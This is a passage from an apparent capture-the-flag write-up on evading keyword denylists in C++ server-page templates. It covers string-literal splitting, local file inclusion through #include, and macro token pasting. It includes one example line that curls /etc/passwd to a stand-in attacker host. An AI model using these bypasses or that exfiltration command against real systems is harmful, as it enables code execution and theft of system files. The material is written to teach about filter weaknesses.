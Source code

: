 - Try to figure out how the assembly maps to the C syscalls in the previous sections.
- `buffer` is technically an output, so why do we treat it as an input?
- Demonstrate RCE by using the execve syscall.

Blocking the keyword `syscall` will not work here. We can bypass it with a simple `sys" "call`, since adjacent strings are concatenated in C/C++ (`"a" "b" == "ab"`). To properly block such calls, we would need to block the functions invoking inline assembly, such as `asm`.

Handy Reference: [Using Inline Assembly in C/C++](https://www.codeproject.com/Articles/15971/Using-Inline-Assembly-in-C-C)

#### Local File Inclusion with  `#include`
{# Need double space in header to avoid weird issue where "with" and "include" are jammed together in ToC. #}

Filters applied to a set of file extensions can be easily bypassed by uploading a file with an unfiltered extension, then `#include`-ing it in the CSP. All `#include` really does is copy-paste the included file's content, which then gets compiled as C/C++ code.

- Example.csp - with stringent checks on denied words.
    ```csp {data-label=Example.csp}
    <%inc #include "safe.txt" %>
    ```

- safe.txt - other C++ code which gets a free pass, possibly using a technique above.
    ```cpp {data-label=safe.txt}
    system("curl http://attacker.site --data @/etc/passwd");
    ```

This allows us to bypass situations where, say, .csp files are strictly checked, but certain extensions are not checked at all.

I'll admit this one slipped my mind; quite a few players discovered this unintended solution during the CTF.

#### Bypass Denylists with Macro Token Concatenation (`##`)

C/C++ macros have some quirky features:

- `#`: Converts a macro argument's value to a string.
    ```cpp
    #define STR(X) #X
    // STR(abc) == "abc"
    ```

- `##`: Joins two arguments.
    ```cpp
    #define GLUE(X, Y) X ## Y
    GLUE(c, out) << "hello world!" << GLUE(e, ndl); // cout << "hello world!" << endl;

    #define GLUE2(X) X ## _literally
    int GLUE2(var) = 1; // int var_literally = 1;
    ```

The second feature allows us to bypass denylists which only match full words.

For instance, if a denylist blocks `system`, we can do `GLUE(s, ystem)`.
